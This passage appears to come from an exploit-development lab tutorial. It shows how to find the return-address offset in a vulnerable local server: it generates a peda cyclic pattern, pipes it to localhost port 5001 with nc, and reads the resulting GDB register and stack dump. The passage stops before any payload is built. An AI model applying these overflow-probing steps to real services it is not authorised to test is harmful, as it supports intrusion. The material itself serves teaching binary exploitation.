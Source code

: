 Note that the server is paused right now, because we want to  issue another GDB
command. But we could continue it with `c`.

## Find offset

As first step, we can create a peda pattern, which makes it easier for us to identify
the offset to SIP. It should be bigger that the destination buffer (256 bytes in our case).  
```
gdb-peda$ pattern create 300
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%'
```

We attached GDB to the server process, which paused the process. We also told GDB to follow children.
Lets continue the process:
```
gdb-peda$ c
Continuing.
```

The server is now unpaused. Lets send the peda pattern to the server:
```
root@hlUbuntu64:~/challenges/challenge15# echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%' | nc localhost 5001
```

We have the following output in GDB:

```
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x73 ('s')
RDX: 0x6
RSI: 0x400c9e --> 0x20746e65696c4300 ('')
RDI: 0x7fffffffdff6 ("sAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A"...)
RBP: 0x2541322541632541 ('A%cA%2A%')
RSP: 0x7fffffffdbd8 ("HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%\n")
RIP: 0x4009c2 (<handleData+92>: ret)
R8 : 0x0
R9 : 0x138
R10: 0x37d
R11: 0x7ffff7ba2730 --> 0xfffda400fffda12f
R12: 0x400870 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe650 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
  0x4009ba <handleData+84>:    jmp    0x4009c1 <handleData+91>
  0x4009bc <handleData+86>:    mov    eax,0x0
  0x4009c1 <handleData+91>:    leave
=> 0x4009c2 <handleData+92>:    ret
  0x4009c3 <doprocessing>:     push   rbp
  0x4009c4 <doprocessing+1>:   mov    rbp,rsp
  0x4009c7 <doprocessing+4>:   sub    rsp,0x820
  0x4009ce <doprocessing+11>:  mov    DWORD PTR [rbp-0x814],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdbd8 ("HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%\n")
0008| 0x7fffffffdbe0 ("%IA%eA%4A%JA%fA%5A%KA%gA%6A%\n")
```